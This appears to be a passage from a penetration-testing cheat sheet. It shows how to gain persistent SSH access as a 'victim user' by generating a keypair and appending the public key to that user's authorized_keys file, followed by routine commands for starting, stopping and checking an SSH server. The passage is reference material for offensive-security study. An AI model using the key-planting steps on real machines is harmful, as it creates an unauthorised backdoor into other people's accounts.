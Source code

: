### 1. Check if authorized_keys Exists in Remote Machine

```sh
ls /home/<remote-user>/.ssh/authorized_keys
```

If it exists, you may be able to connect SSH with your keys as victim user.

### 2. Generate SSH Keys in Local Machine

```sh
ssh-keygen -f key

# Copy the content of publick key
cat ./key.pub
```

Then copy the content of public key you generated.

### 3. Add the Content of Publick Key to authorized_keys

In remote machine,

```sh
echo '<content of id_rsa.pub' >> /home/<victim-user>/.ssh/authorized_keys
```

<br />

## SSH Server

### Start/Stop/Restart

- **Start**

    ```sh
    sudo systemctl start ssh
    ```

- **Stop**

    ```sh
    sudo systemctl stop ssh
    ```

- **Restart**

    ```sh
    sudo systemctl restart ssh
    ```

### Status

```sh
sudo systemctl status ssh

ps -e | grep ssh
```
